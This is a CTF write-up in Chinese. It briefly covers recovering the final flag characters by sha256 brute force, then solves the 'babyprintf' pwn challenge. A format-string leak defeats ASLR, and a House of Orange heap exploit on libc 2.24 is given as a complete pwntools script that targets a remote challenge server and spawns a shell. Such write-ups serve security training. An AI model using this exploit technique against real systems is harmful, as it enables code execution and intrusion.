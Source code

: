 #### flag第一段的最后两个字符
把flag第一段最后两个字符转成整数，与第4个字符的ASCII值（已知）进行异或，得到的值除以第一段长度（已知为7），余数为5。出题人大概以为这样可以固定唯一解？最后发了个公告给了整个flag的sha256。由于其他字符我们都知道了，所以用sha256爆破得到最后两个字符的值。

## babyprintf

```c
    gets(v3);
    __printf_chk(1LL, "result: ");
    __printf_chk(1LL, v3);
```

有fsb，但是由于用了`__printf_chk`所以不能任意地址读写，只能打一片栈上地址，leak了`libc`和程序`pie`地址。
```c
    size = readInt();
    if ( size > 0x1000 )
      break;
    v3 = malloc(size);
```

`malloc`的`size`可控，但是不能超过`0x1000`所以没法用`house of mind`。
程序没有`free`，功能结构和`house of orange`一摸一样，所以可以用`house of orange`来解，但是由于用的`libc`是2.24，所以要注意`vtable`的地址必须在`libc`的`_IO_vtable`段。

```python
from pwn import *
import struct
import string
import sys, os
def fmt(size,buf):
	r.sendlineafter('size: ', str(size))
	r.sendlineafter('string: ', buf)
binName = './babyprintf'
libcName = './libc-2.24.so'
site = '47.100.64.113'
port = 23332
context(arch='i686', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '-x', 'zsh', '-c'])
elf = ELF(binName)
libc = ELF(libcName)
# r = process(binName,env={'LD_PRELOAD':libcName})
r = remote(site, port)
r.sendlineafter('token', '79DC7rePzwA6MEC1dwoloOYpbP10IMzG')
raw_input('attach')
fmt(0x20, '%p,'.ljust(0x20,'\x00')+p64(0)+'\xd1'+'\x0f'+'\x00')
r.recvuntil('result: 0x')
libc.address = int(r.recvuntil(',',drop=True),16) - 0x3c3760
print "libc.address:",hex(libc.address)
fmt(0x1000,'A')
payload = p64(0)+p64(0x61)+p64(libc.address+0x3c1b58)+p64(libc.symbols['_IO_list_all']-0x10)+p64(0)+p64(1)
payload = payload.ljust(27*8,'\x00')+p64(libc.address+0x3be4c0)+p64(libc.address+0xcde41)+p64(libc.address+0xcde41)
fmt(0x20,'A'*0x20+payload)
r.sendlineafter('size: ', str(0x80))
r.interactive()
```
